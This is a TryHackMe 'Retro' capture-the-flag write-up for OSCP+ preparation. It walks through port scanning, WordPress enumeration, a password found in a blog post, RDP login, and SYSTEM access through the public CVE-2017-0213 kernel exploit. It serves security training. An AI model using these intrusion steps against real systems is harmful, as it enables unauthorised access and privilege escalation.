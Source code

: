```yaml
---
layout: post
title:  THM Retro Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-19 05:00:00 +0300
image:  '/images/thm_retro.png'
tags:   [Write-ups, THM, OSCP+, Hard, WordPress, RDP, Windows-Kernel-Exploit, CVE]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [RDP Access with xFreeRDP](#rdp-access-with-xfreerdp)
- [Privilege Escalation](#privilege-escalation)
  - [CVE-2017-0213 Kernel Exploit](#cve-2017-0213-kernel-exploit)

# Enumeration
### Nmap 10.10.48.32
```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.52.234

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p80,3389 10.10.52.234
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 11:31 EST
Nmap scan report for 10.10.52.234
Host is up (0.055s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-18T16:32:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-11-17T16:26:50
|_Not valid after:  2025-05-19T16:26:50
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-11-18T16:32:05+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.49 seconds
```

Examining our nmap scan results, we can see port 80 HTTP and port 3389 RDP open.

### Web Enumeration
If we visit the website, we will see a Microsoft IIS page:

```shell
http://10.10.52.234/
```

Lets use feroxbuster to try finding something interesting:

```shell
feroxbuster -u http://10.10.52.234/
```

Examining the results, we will can easily notice that the target is running WordPress (WP).

Notice that all directories in the results starts with:

```shell
http://10.10.52.234/retro
```

If we visit the URL above, we will appear on a website which seems to be some kind of retro gaming website.

Lets take a look at the posts created by Wade. Click on Wade, it will take us to a list of Posts by Wade:

```shell
http://10.10.52.234/retro/index.php/author/wade/
```

Examining the posts on the blog, we will find a password:

```shell
http://10.10.52.234/retro/index.php/2019/12/09/ready-player-one/
```

```shell
Leaving myself a note here just in case I forget how to spell it: parzival
```

Maybe we can use parzival as password somewhere.

# Foothold
### RDP Access with xFreeRDP
We can suppose that prazival is the password for the user Wade. Lets try getting RDP access with these credentials:

```shell
Wade:parzival
```

```shell
nxc rdp 10.10.48.32 -u Wade -p 'parzival' --local-auth
```

```shell
sudo xfreerdp /u:Wade /p:parzival /v:10.10.58.188 /drive:share,/home/kali/share
```

Nice! The credentials were valid and we got access as the user Wade.

### User Flag
Now we can get the user.txt flag, we can click and open it on the desktop or use the command line:

```shell
type C:\Users\Wade\Desktop\user.txt
```

# Privilege Escalation
### CVE-2017-0213 Kernel Exploit
We can use ver or systeminfo to enumerate the kernel info:

```shell
ver

systeminfo | findstr /B /C:"OS Version"
```

This will give us the built 14393 as result:

```shell
OS Version:                10.0.14393 N/A Build 14393
```

We can find a exploit for the version 14393 here if we do some search and look throughly:

https://github.com/SecWiki/windows-kernel-exploits

Lets download the kernel exploit we need:

```shell
https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2017-0213/CVE-2017-0213_x64.zip
```

Note: Dont use wget to download it. Visit the page and click on download.

Now move and use the exploit:

```shell
# I will make use of my xfreerdp folder
sudo cp CVE-2017-0213_x64.exe /home/kali/share

# Now we can run the exploit
Shift + Right-click on Desktop -> Open command window here

# Enter the following to run the exploit
CVE-2017-0213_x64.exe
```

A new CLI window will pop up giving us a shell as system.

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt.txt
```

If we get any problem when trying to copy the flag content, just copy the root.txt.txt into the desktop of the user Wade and open the file there:

```shell
copy C:\Users\Administrator\Desktop\root.txt.txt C:\Users\Wade\Desktop\root.txt
```